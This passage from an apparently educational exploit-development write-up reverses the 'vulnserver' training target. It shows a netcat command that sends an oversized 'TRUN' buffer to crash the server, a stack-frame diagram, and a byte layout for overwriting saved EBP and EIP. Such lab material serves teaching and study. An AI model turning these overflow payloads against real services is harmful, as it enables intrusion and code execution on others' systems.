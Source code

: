 **Payload of 2002 bytes plus a dot.**

``` console
$ echo -n "$(python3 -c "print('TRUN .' + 'A'*2002)")" | nc 192.168.0.20 9999
Welcome to Vulnerable Server! Enter HELP for help.
```

As you can notice, with the last command with a payload of 2002 `A`
chars plus a dot, `vulnserver` stopped working and we got an `Access
Violation` exception on our debugger:

<div class="imgblock">

![Access
violation](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331064/blog/reversing-vulnserver/accessviolation1_dy6guo.webp)

</div>

That means that we started to overwrite the `saved EBP` which is next to
the `saved EIP` on the `Function3` stack frame:

**Reversed Function3 stack frame.**

``` text
._________________________________.__________________.__________________.
             *dest                      Saved EBP         Saved EIP
      epb-0x7d8 (2008 bytes)         ebp+0 (4 bytes)   ebp+0x4 (4 bytes)
```

So, if we inject 2016 bytes:

1. `len('TRUN ')` = 5

2. 2002 `A` chars

3. 1 dot

4. 4 `B` chars

5. 4 `C` chars

We should overwrite the `saved EBP` with 4 `B` and the `saved EIP` with
4 `C`, and when the vulnerable function returns, `EBP` and `EIP` will be
overwritten by our buffer:

<div class="imgblock">

![Access
violation](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331062/blog/reversing-vulnserver/eip1_osjkcu.gif)

</div>

Indeed\! We were able to identify the vulnerability on the `TRUN`
command.

## Inverse approach
